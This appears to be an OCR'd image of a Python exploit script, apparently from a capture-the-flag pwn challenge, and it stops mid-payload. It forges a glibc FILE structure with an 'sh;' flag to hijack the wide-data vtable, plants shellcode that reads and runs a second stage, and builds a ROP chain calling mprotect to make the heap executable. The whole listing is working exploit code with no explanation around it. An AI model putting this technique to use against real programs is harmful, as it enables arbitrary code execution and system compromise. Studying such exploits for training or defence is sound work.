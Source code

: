 ```python
_lock = libc_base + 0x1F8A10
_IO_wfile_jumps = libc_base + libc.sym._IO_wfile_jumps
fake_IO_FILE = heap_base + 0x290

f1 = IO_FILE_plus_struct()
f1.flags = u64_ex("  sh;")
f1._lock = _lock
f1._wide_data = fake_IO_FILE + 0xE0
f1._mode = 1
f1.vtable = _IO_wfile_jumps

f1._IO_save_base = fake_IO_FILE + 0x510 + 0x100

payload = flat(
    {
        0: {
            0: bytes(f1)[0x10:],
            0xE0 - 0x10: {
                0x18: [0],
                0x30: [0],
                0xE0: [fake_IO_FILE + 0x200],
            },
            0x200 - 0x10: {0x68: [magic_gadget]},
        },
    }
)
edit(0, payload)

first_state = f"""
    mov rdi, 0;
    mov rsi, {heap_base + 0x1000};
    mov rdx, 0x1000;
    mov eax, 0;
    syscall;

    mov rax, {heap_base + 0x1000};
    call rax;
"""

edit(3, asm(first_state))

payload = flat(
    {
        0: {
            0: b"a" * 0x10,
            0x100 - 0x20: {
                0: [0xDEADBEEF, add_rsp_0x38_ret],
                0x18: [fake_IO_FILE + 0x520 + 0x100],
                0x28: [leave_ret],
                0x38: [
                    leave_ret,
                    fake_IO_FILE + 0x520 + 0x200,
                    pop_rdi_ret,
                    heap_base,
                    pop_rsi_ret,
                    0x21000,
                    pop_rdx_ret,
                    7,
                    libc_base + libc.sym.mprotect,
                    heap_base + 0x15F0 + 0x10,
                ],
            },
        },
```